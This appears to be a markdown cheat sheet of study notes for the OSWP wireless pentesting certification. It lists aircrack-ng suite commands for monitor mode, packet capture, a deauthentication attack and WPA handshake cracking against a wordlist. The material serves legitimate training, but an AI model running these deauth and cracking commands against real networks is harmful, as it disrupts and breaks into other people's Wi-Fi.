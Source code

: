 # OSWP

## Aircrack-ng 
### Packet sniffer, network detector, frame injection, cracks WEP and WPA-PSK 
```
airmon-ng check
airmon-ng check kill

sudo /usr/sbin/airmon-ng
airmon-ng start wlan0
airmon-ng stop wlan0
iw wlan0 info

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
### Generate wireless traffic, deauths, WEP
#### Set card to channel, start injection with -9
##### Basic Injection Test
```
sudo airmon-ng start wlan0 3 
sudo aireplay-ng -9 wlan0mon
```
### Deauth
```
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
-a|BSSID
-c|client

## Aircrack-ng
### Cracking Hashes
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```


##Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
```
